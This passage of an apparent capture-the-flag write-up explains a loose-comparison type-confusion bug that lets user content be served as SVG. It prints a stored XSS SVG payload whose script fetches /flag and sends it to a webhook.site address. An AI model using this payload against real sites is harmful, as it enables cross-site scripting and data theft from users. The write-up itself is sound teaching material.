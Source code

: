 ```javascript
cards[id].type = type    == "image/svg+xml" ? type : "text/plain";
cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;
```
Loose comparison! A loose comparison is this `==` comparison and the difference between it and strict comparison `===` is that it will return true for two equal values even if they have different data types! here is an example:

```javascript
>> "a" == ["a"]
true
>> "a" === ["a"]
false 
```

So in our case, the code checks if the type of the card is "loosely" equal to `image/svg+xml` and if so it will keep it as `image/svg+xml`,  that is why that `app.use(bodyParser.urlencoded({ extended: true }));` was important so we could use arrays in the body for our type parameter

What we wanted is to make the first condition return true so it keeps the `image/svg+xml`, while still making the second condition false so we get our content instead of those standard SVGs

Now that we have all the pieces we need at our hand let's craft our payload!

First, for the content we need to inject an XSS inside an SVG, we can do this because SVGs have this HTML syntax-like (XML) and would still execute scripts within (you can refer to this [article](https://infosecwriteups.com/stored-xss-using-svg-file-2e3608248fae) for details)

So our SVG payload will be like this:

```xml
<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">
<script>
fetch("/flag").then((response) => response.text()).then((text) => location.href="https://webhook.site/your_webhook_id?s="+text);
</script>
</svg>
```
The job of this script inside the SVG is to make the bot visit the `/flag`{: .filepath} path and send its content to our webhook site! ( webhook website is a site to receive incoming HTTP request and make us see them, and it is used here to receive the flag as a URL parameter, to know more about it you can google it:)

Now, to craft our URL let's make a card so we get an id
